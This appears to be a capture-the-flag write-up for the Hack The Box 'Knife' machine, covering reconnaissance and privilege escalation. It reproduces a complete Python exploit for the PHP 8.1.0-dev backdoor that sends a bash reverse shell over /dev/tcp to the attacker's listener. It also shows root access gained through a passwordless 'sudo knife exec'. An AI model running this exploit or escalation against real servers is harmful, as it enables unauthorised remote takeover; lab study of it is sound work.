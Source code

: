 ```yaml
---
cover: ../../.gitbook/assets/Knife.png
coverY: 254.84799999999998
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Knife

Add vhost :

```bash
echo '10.129.237.79 knife.htb'|tee -a /etc/hosts'
```

Scan :

```bash
nmap knife.htb
```

Open ports :

* `22/TCP` : SSH
* `80/TCP` : HTTP

Check service behind port `80/TCP` :

```bash
whatweb knife.htb
```

The result is :

```
http://knife.htb [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.237.79], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Check exploit for `php 8.1.0-dev`. There is an exploit [here](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell\_php\_8.1.0-dev.py). Before executing the Python code, I run `nc -lnvp 1234`.

```py
#!/usr/bin/env python3
import argparse,requests

request = requests.Session()

def checkTarget(url):
	response = requests.get(url)
	for header in response.headers.items():
		if "PHP/8.1.0-dev" in header[1]:
			return True
	return False

def reverseShell(lhost, lport, url):
	payload = "bash -c \"bash -i >& /dev/tcp/" + lhost + "/" + lport + " 0>&1\""
	headers = {"User-Agentt": "zerodiumsystem('" + payload + "');"}
	print(headers)
	injection = request.get(url, headers=headers, allow_redirects=False)

def main():
	url = input("url : ")
	lhost = input("lhost : ")
	lport = input("lport : ")

	if checkTarget(url):
		print("Host is vulnerable")
		reverseShell(lhost, lport, url)
	else:
		print("Host is not available or vulnerable, aborting...")
		exit

if __name__ == "__main__":
	main()
```

When I execute the payload, I enter `http://knife.htb`, `10.10.14.81` and `1234`. I get the reverse shell.

```sh
cat /home/james/user.txt
```

Result of `sudo -l` :

```
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

I can run `sudo /usr/bin/knife` without password. I execute the following command :

```sh
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```

I gain root privileges :

```sh
cat root/root.txt
```
